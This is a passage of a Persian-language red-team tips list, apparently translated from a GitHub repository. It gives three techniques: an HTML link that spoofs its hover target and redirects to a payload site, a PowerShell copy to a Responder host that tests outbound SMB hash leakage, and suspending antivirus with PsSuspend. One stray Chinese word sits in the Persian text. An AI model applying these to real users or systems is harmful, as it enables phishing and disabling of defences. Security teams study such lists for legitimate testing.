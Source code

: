 ![image](https://user-images.githubusercontent.com/100603074/223849419-c65fec83-ca1c-4a20-ac06-ec2de537a748.png)

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>PreventDefault Example</title>
  </head>
  <body>
    <a href="https://google.com" onclick="event.preventDefault(); window.location.href = 'https://bing.com';">Go to Google</a>
  </body>
</html>
```

**توضیح:** *مشاهده شده که عوامل تهدید از این تکنیک برای فریب قربانیان جهت کلیک روی لینک‌های جعلی دانلود بدافزار در صفحه استفاده می‌کنند. با استفاده از متد `PreventDefault` در جاوااسکریپت، می‌توانید لینکی را جعل کنید که در هاور (hover) لینک معتبر `google.com` را نمایش می‌دهد، اما پس از کلیک، قربانی به لینک مخرب شما (`bing.com`) هدایت می‌شود. این روش برای وادار کردن قربانیان به دانلود payloadها از طریق یک سایت تحت کنترل عالی است.*<br>
**لینک:** [مستندات PreventDefault](https://developer.mozilla.org/en-US/docs/Web/API/Event/preventDefault)<br>

### [🔙](#tool-list)Check SMB firewall rules with Responder
*بررسی قوانین فایروال برای SMB با استفاده از Responder*

![image](https://user-images.githubusercontent.com/100603074/229650380-b651cfc4-896f-4429-b7b4-54d1241a5b39.png)

```powershell
Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"
```

**توضیح:** *«هنگامی که یک ارزیابی نفوذ (Compromise Assessment) انجام می‌دهم، اغلب از مشتری می‌پرسم که آیا می‌توانم یک بررسی سریع نهایی انجام دهم: `Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"`. اگر Responder بتواند هش را捕获 (capture) کند، به این معنی است که فایروال اجازه اتصالات خروجی SMB را می‌دهد.»*<br>
**اعتبار:** [@malmoeb](https://twitter.com/malmoeb)<br>
**لینک:** [Twitter](https://twitter.com/malmoeb/status/1628272928855826433)<br>

### [🔙](#tool-list)Disable AV with SysInternals PsSuspend
*غیرفعال کردن آنتی‌ویروس با استفاده از PsSuspend از SysInternals*<br>

![image](https://github.com/A-poc/RedTeam-Tools/assets/100603074/4519f5ad-c177-4550-b9af-238fa73ad66e)

**توضیح:** *با استفاده از ابزار Microsoft Sysinternals به نام PsSuspend.exe می‌توان برخی از فایل‌های اجرایی سرویس آنتی‌ویروس را به حالت تعلیق (suspend) درآورد. این ابزار امضا شده توسط مایکروسافت می‌تواند PID یا نام یک سرویس در حال اجرا را دریافت کند و آن فرآیند را از طریق Windows API به نام `NtSuspendProcess` متوقف کند.*<br>
**پست وبلاگ مرتبط:** [دور زدن آنتی‌ویروس از طریق تعلیق فرآیند با PsSuspend.exe](https://medium.com/@a-poc/process-suspension-with-pssuspend-exe-0cdf5d16a3b7)<br>
**لینک:** [Twitter](https://twitter.com/0gtweet/status/1638069413717975046)<br>